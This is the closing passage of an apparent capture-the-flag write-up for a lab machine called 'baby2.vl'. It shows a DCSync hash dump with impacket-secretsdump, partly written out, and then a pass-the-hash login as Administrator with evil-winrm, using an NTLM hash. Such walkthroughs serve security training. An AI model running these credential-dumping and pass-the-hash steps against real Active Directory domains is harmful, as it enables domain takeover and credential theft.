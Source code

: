 ## DCSync  using impacket

Now we've got the right to perform a `DCSync` attack which will retrieve all hashes for the domain users, let's use `impacket-secretsdump` for this

```bash
baby2.vl/gpoadm:'Password123!'@10.129.234.72
```

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2Feyc8okcX5kqR6mmQXqqW%2Fimage.png?alt=media&#x26;token=a69bee59-9b7e-4776-91f9-6a43c9372a6d" alt=""><figcaption></figcaption></figure>

Perfect! Now let's just `PtH` to the `WinRM Service` using `evil-winrm` to the **DC** throughout  the *Administrator* account

```bash
evil-winrm -i baby2.vl -u 'administrator' -H '61eb5125f9944214679c2d0fdca6eb82'
```

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FXlz41hrvRC6dUpsP0To5%2Fimage.png?alt=media&#x26;token=65db706a-64b7-4341-89f8-62555a5f2635" alt=""><figcaption></figcaption></figure>

Hope you enjoyed this machine and see you next time!
